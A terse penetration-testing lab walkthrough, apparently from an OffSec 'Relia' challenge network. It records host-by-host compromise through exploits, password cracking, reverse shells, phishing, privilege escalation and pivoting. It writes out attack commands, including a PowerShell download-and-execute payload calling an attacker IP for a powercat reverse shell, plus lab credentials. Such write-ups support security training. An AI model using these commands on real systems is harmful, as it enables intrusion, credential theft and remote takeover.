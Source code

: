 ### 192.168.243.245

anonymous ftp available, but no contents
apache cve2021-41773 working
tried to get id_rsa of users but no luck
got id_ecdsa of anita
cracked using john
passphrase fireball 
got the shell
found local.txt
privsec using exploit_nss.py
found proof.txt

### 192.168.224.246

loggedin with anita private key
found local.txt
using ss found listening on localhost:8000
ssh -L 9090:localhost:8000 -i id_ecdsa anita@192.168.209.246 -p 2222 did ssh tunneling
accessed internal website using 127.0.0.1:9090
found backend with view parameter
searched for writeable directories
found /dev/shm
uploaded php reverse shell
got reverse connection
sudo -l showing nopasswd all
sudo su
got proof.txt

### 192.168.209.247

ftp server running on 14020
web server running on 14080
find direct exploit for umbraco 
python3 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080' -c powershell.exe -a "-NoProfile -Command IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.212:8000/powercat.ps1'); powercat -c 192.168.45.212 -p 443 -e powershell"
local.txt not found
seimpersonate privilege available
printspoofer not working
godpotato worked
proof.txt found

### 192.168.243.248

smb server running
accessed smb using smbclient //192.168.244.248/ -U guest
found database.kdbx file
converted to keepass2john Database.kdbx > keepasshash.txt
cracked password using john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash.txt
found emma password in keepass
logge in rdp with emma
found local.txt
found a exe in C: for dll hijacking but rabbithole
ran Get-Childitem -path env:
 appkey !8@aBRBYdb3!
 open admin cmd with mark and above password
 got proof.txt

### 192.168.244.249
gobuster on port 80 and 8000
nothing on port 80 except aspnet_client/system_web
on port 8000 rite cms
found /cms/admin.php with default credentials
uploaded php reverse shell from revshells.com
got reverse shell
found local.txt
seimpersonate privilege available
used godpotato
found proof.txt
unable to run mimikatz
added a new user to administrator and rdp group
got rdp with new user
from git head found email id and password and a additional email id


###  192.168.196.189

crackmapexec smb 192.168.196.189 -u user.txt -p pass.txt --continue-on-success 
found maildmz as valid user with password
detailed steps for windows library abuse using phishing mail in assembling the pieces

```
mkdir /home/kali/beyond/webdav
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```

sent phishing mail to jim@relia.com
got reverse shell from 172.16.86.14
found local.txt

### 172.16.86.14

got reverse shell after sending email using 189
found local.txt
found Database.kdbx
transferred to kali using
impacket-smbserver -smb2support test .
copy scheduler.exe \\192.168.45.173\test\scheduler.exe
found password of jim@relia.com and dmzadmin
also permissions to access c:\users\offsec
found proof.txt on desktop
got stuck now, no share access available, no evilwinrm, no password spraying working

turned to asreproasting using rubeus, found michelle user hash, cracked using hashcat
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force


### 192.168.196.191
logged into rdp with dmzadmin
got adminitstrator access
found proof.txt
connected to internal network using ligolo


### 172.16.86.7 

logged in with michelle user
found local.txt
found scheduler.exe in C:
running as a administrator service
use customlib.dll but no permission to replace exe or dll
use one more beyondhelper.dll. created and copied in same directory
created new user and cmd as .\dave2
found proof.txt
ran mimikatz found plain text password of andrea

### 172.16.99.15

logged in with andrea user, found local.txt
update collector folder in C:\
schedule.ps1 in C:\ with misspelled updatecollctor.exe
scheduled to runas milana
created msfvenom shell and saved as uploadcollctor
got reverse shell found proof.txt
have impersonate and debug privilege
found hash of milana
in documents found databse.kdbx
in db found ssh key of sarah
tried on 19

### 172.16.99.19

logged in with ssh key of sarah
found local.txt
sudo -l borg command 
used extract to stdout with borg
found password of linux 20 and hash of amy
su amy
sudo su
found proof.txt

### 172.16.92.20

ssh using andrew password found on 19
found local.txt
 ssh -L 80:127.0.0.1:80 andrew@172.16.132.20

started apache service using service apache24 onestatus
got reverse shell as www user
can read history file of mount user
found password of mountuser from history, was used on 21

### 172.16.92.21

accessed 21 share from 191 using mountuser credentials, found password of administrator
enter-pssession for 21 from 191
all other machine using ps session with dom admin

### 192.168.250.189

converted relia.com/administrator password to ntlm and used impacket-psexec









